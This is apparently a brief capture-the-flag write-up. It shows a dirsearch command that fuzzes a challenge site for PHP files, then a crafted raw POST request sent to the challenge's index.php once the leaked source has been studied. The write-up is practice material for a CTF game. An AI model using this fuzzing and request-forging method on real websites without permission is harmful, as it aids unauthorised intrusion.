 1. Fuzz the website with /usr/share/wordlists/dirb/common.txt with php extension:
	```python3 dirsearch.py -u URL -w /usr/share/wordlists/dirb/common.txt -e php```

2. After you get the source code, build your payload to get pass all of the conditions. 
   I've personally made a php script that generates the payload for me (get_payload.php)

3. Make a request with the generated payload, example:

```POST /index.php HTTP/1.1
Host: challenge.ctf.games:31965
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://challenge.ctf.games:31965/
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Connection: close
Upgrade-Insecure-Requests: 1

name=ntj&answer=qweqweasda&time=1004681409```
